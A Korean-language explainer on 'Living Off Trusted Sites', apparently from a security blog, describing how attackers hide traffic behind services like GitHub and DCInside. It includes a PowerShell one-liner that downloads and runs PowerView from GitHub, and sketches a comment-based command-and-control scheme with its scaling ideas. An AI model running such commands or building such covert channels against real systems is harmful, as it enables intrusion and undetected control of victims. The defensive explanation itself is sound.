

# Living Off Trusted Sites (LOTS)



LOTS (Living Off Trusted Sites) 는 공격자들이 자주 사용하는 정상적인 웹 서비스들을 모아놓은,  LOLBINS과도 비슷한 성격의 프로젝트다. 공격자들은 구글 드라이브, 깃허브, 레딧, 노션 과 같은 정상적인 웹 서비스들을 이용해 명령을 수행하거나, 파일을 업로드/다운로드 하거나, 피싱 등의 공격을 실행할 수 있다. 공격자와 피해자 호스트 간의 트래픽이 C2 서버나, 공격자의 도메인이나, 수상한 IP 주소를 경유 하는 것이 아니라, 매우 유명한 웹 서비스들을 거치기 때문에 블루팀의 입장에서 볼 때 네트워크 트래픽의 이상한 점을 느끼기가 어렵다. 때문에 공격 중 네트워크 트래픽을 숨기기 위해 공격자들은 LOTS에 등록되어 있는 웹사이트들을 이용한다.&#x20;

예를 들어 공격자가 피해자 호스트를 장악 한 뒤, 정보 수집과 권한 상승 공격을 위해 추가 파워쉘 스크립트를 로드해서 공격한다고 가정해보자. 공격자는 이 파워쉘 스크립트를 공격자의 도메인에서 가져오는 것이 아니라, 깃허브에서 다음과 같이 가져온다.&#x20;

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
```

엔드포인트 보안을 잠시 제외하고, 네트워크적으로만 따져보자. 블루팀의 입장에서 보면 한 컴퓨터가 깃허브로 가서 공개되어 있는 리포의 파워쉘 스크립트를 가져오는 것으로 밖에 안보인다. 얼마나 많은 개발자들과 시스어드민들이 회사에서 매일매일 깃허브를 이용하는가? 이렇게만 보면 이 네트워크 트래픽은 정상적으로 보인다.&#x20;

공격자들은 LOTS를 이용해서 정상적인 웹 서비스를 공격에 이용할 수 있다. LOTS의 이용 방법은 다양하다:&#x20;

1. 피싱&#x20;
2. Command and Control
3. 파일 업로드/다운로드&#x20;
4. 데이터 유출 (Data Exfiltration)

이 중 피싱, 파일업로드/다운로드, 데이터 유출은 간단한 개념인 것 같다. 하지만 정상적인 웹 서비스를 C2 (Command and Control) 에 이용한다는 것은 어떤 의미일까?&#x20;

### LOTS 와 C2&#x20;

우리나라에는 "DCInside" 라는 커뮤니티가 웹사이트가 있다. 이 웹사이트의 가장 큰 특징이자 장점 중 하나는 바로 누구나 사용자 인증 없이 글을 읽고, 쓰고, 댓글을 쓸 수 있다는 점이다. 다음의 시나리오를 생각해보자.&#x20;

1. 쓰여진지 2년 정도 지났지만 댓글 작성한 글을 찾아낸다.&#x20;
2. 공격자 호스트에서는 해당 글에 `[1]execute: powershell.exe -command "whoami"` 라는 댓글을 남긴다.&#x20;
3. 피해자 호스트에서 돌아가는 비컨은 해당 글의 URL로 방문해 댓글을 읽고 파싱을 진행한다. \[1]은 첫번째 명령, execute 는 "실행" 명령, `powershell.exe -command "whoami"` 는 실행할 명령이다. 명령을 실행한뒤 `chois computer - Administrator` 라는 값을 반환한다.&#x20;
4. 피해자 호스트는 `chois computer - Administrator` 라는 반환된 값을 다시 똑같은 글에 댓글로 남긴다. `[bot]result: chois computer - Administrator`&#x20;
5. 공격자 호스트에서 다시 해당 글을 방문해 댓글로 명령이 실행된 결과를 확인한다.&#x20;

이렇듯 특정 웹사이트를 통해서 공격자 호스트는 피해자 호스트에게 명령을 내리고, 결과를 반환받을 수 있다. 피해자 호스트의 블루팀의 입장에서 볼때는 그저 dcinside.com 의 랜덤한 글을 방문하는 것 밖에 보이지 않을 것이다.&#x20;

이제 위에서 나온 PoC에다가 다음의 것들을 추가해보면...&#x20;

* 명령 및 결과 반환 암호화 적용&#x20;
* 자체 API 개발로 공격자 서버와 피해자 비컨이 모두 dcsinside를 더 편하게 이용하도록 함&#x20;
* 각 피해자 비컨들마다 새로운 글을 지정함. 100개의 피해자 호스트가 있다면 100개의 다른 글에 댓글을 남기고, 공격자 서버는 해당 글들을 방문해 결과를 확인하는 식으로 스케일링&#x20;
* (졸업 프로젝트로 사용하고 교수님에게 칭찬 받기)&#x20;

실제로 위의 내용과 비슷하게 Reddit 커뮤니티를 사용하는 RedViper 오픈소스 프로젝트가 공개됐던적도 있고, 디스코드 (Discord)를 이용하는 C2 서버 프로젝트도 있다.&#x20;


### 레퍼런스&#x20;


